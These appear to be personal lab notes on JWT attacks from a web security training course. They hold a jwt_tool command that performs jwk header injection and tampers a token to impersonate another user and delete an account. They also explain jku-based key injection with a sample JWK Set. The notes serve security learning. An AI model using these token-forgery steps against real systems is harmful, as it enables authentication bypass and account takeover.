 # Using JWT_TOOL 
- Get the jwt and run this command
```
jwt_tool "eyJraWQiOiIwNDQ4ZWQ1Ni1jMzgwLTQ1MzgtODlkNi0wYWIxZTRkZmZiODUiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1ODM4MDUwOSwic3ViIjoid2llbmVyIn0.C6q2ZEt4sQw9rsbHOxiBpJMLDyzpMv5PyrTsTiKlJKoKp1yacCJnqt501QRGIpnXhKNrlWnAeocjVqRM4KA35YeYz8hiA6cX5Jap_OBzFKh8ZRImzwK67wJzskdi7eBuS0MxRcGoOR0TCWvCtRgSR7gMDYOhVGzBxVoumiJ-0QFSlFufMcvAy1Ws4kYsvHcn1msz6AOaPitbc3DAf7Qb103GKIf1_yqVg6SUatrDLasnNsyDdjARTaKeMiDSiq9nO5qDfMrsy1dimYJrTpo7ywjjye25_x9VakPzp9fCkYzWC0RbpGb-L899LXSlg9q0fZLLR7zWK9KXlDAemd3orQ" -X i -T
```
- -X i options run the jwk inline attack and -T, tampers the the jwt
- Tamper the header to have "jwt_tool"
- Tamper the sub to become wiener
- Copy the resulting jwt to the cookie browser or burp repeater to delete carlos 

# Injecting self-signed JWTs via the jku parameter
- Instead of embedding public keys directly using the jwk header parameter, some servers let you use the jku (JWK Set URL) header parameter to reference a JWK Set containing the key. 
- When verifying the signature, the server fetches the relevant key from this URL.

# JWK Set
- A JWK Set is a JSON object containing an array of JWKs representing different keys. You can see an example of this below.

```json
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "75d0ef47-af89-47a9-9061-7c02a610d5ab",
            "n": "o-yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw-fhvsWQ"
        },
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "d8fDFo-fS9-faS14a9-ASf99sa-7c1Ad5abA",
            "n": "fc3f-yy1wpYmffgXBxhAUJzHql79gNNQ_cb33HocCuJolwDqmk6GPM4Y_qTVX67WhsN3JvaFYw-dfg6DH-asAScw"
        }
    ]
}
```
- JWK Sets like this are sometimes exposed publicly via a standard endpoint, such as /.well-known/jwks.json.
- More secure websites will only fetch keys from trusted domains, but you can sometimes take advantage of URL parsing discrepancies to bypass this kind of filtering. 
- We covered some examples of these in our topic on SSRF.

